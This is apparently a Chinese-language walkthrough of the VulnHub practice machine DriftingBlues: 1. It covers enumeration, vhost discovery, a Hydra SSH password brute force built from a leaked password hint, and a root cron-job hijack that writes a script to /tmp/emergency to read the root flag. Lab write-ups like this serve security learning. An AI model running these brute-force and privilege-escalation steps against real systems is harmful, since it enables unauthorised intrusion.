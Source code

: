 # DriftingBlues: 1

https://www.vulnhub.com/entry/driftingblues-1,625/#release

difficulty: Easy

Finish Date：2024-2-25

## IP

192.168.10.150

## Scan

开放了 2 个端口：

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 cae6d11f27f26298efbfe438b5f16777 (RSA)
|   256 a8589999f681c4c2b4da44da9bf3b89b (ECDSA)
|_  256 395b552a79edc3bff516fdbd61292ab7 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Drifting Blues Tech
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

访问 Web 页面 80 port，查看是否有敏感信息。

只找到 2 个邮箱地址：`sheryl@driftingblues.box` 和 `eric@driftingblues.box`。

查看页面源代码，发现 166 行有提示：
`<!-- L25vdGVmb3JraW5nZmlzaC50eHQ= -->`

对其进行 base64 反解码：`/noteforkingfish.txt`，对此页面进行访问。

发现一堆 Ook. Ook. Ook.代码，使用 CTF 中的 Brainfuck/Ook! 解码器对其进行解码，有如下提示：`my man, i know you are new but you should know how to use host file to reach our secret location. -eric`

看样子是配置了虚拟主机，修改攻击机的 hosts 文件，将 `driftingblues.box` 这个域名加到其中，使用 gobuster 对虚拟主机进行扫描。

```
gobuster vhost -u driftingblues.box -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50 --append-domain
```

扫描结果中发现虚拟主机：`test.driftingblues.box`，将此虚拟主机和对应 ip 也配置到 hosts 文件中，对其访问，显示 `work in progress -eric`。

使用 gobuster 对此虚拟主机进行扫描：

```
gobuster dir -t 64 -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -u http://test.driftingblues.box/ -x .php,.txt,.html
```

发现页面地址：`/robots.txt`。访问后显示如下：

```
User-agent: *
Disallow: /ssh_cred.txt
Allow: /never
Allow: /never/gonna
Allow: /never/gonna/give
Allow: /never/gonna/give/up
```

对 `test.driftingblues.box/ssh_cred.txt` 进行访问。显示如下：

```
we can use ssh password in case of emergency. it was "1mw4ckyyucky".
sheryl once told me that she added a number to the end of the password.
-db
```

提示是原始密码 1mw4ckyyucky 后加了一个数字。根据提示，生成密码字典：
`for i in {0..9}; do echo "1mw4ckyyucky$i" >> pass.txt; done`

用户名尝试使用上面收集的 2 个邮箱的用户名：`sheryl` 和 `eric`

使用 Hydra 进行爆破：

```
hydra -t 20 -l eric -P pass.txt 192.168.20.150 ssh
```

显示结果：`login: eric   password: 1mw4ckyyucky6`

利用上面的用户名和密码进行 ssh 登陆，在用户目录拿到第一个 flag：user.txt。

---

上传 peas 和 pspy 进行系统枚举，peas 中发现有`/var/backups/backup.sh`，其内容如下：

```bash
#!/bin/bash

/usr/bin/zip -r -0 /tmp/backup.zip /var/www/
/bin/chmod

#having a backdoor would be nice
sudo /tmp/emergency
```

pspy 中发现系统上每 1 分钟以 root 用户执行了这个脚本，然后查看`/tmp/emergency`发现没有，这就给了我们自己创建脚本的机会，将以下内容写入到 emergency 脚本中。

```bash
echo -e "#!/bin/bash\ncp /root/root.txt /tmp/root.txt; chmod +r /tmp/root.txt\n" >> /tmp/emergency
chmod +x /tmp/emergency   # 千万别忘记给脚本执行权限
```

## flag

等待 1 分钟，就可以在/tmp 目录下查看到 root.txt 文件了。
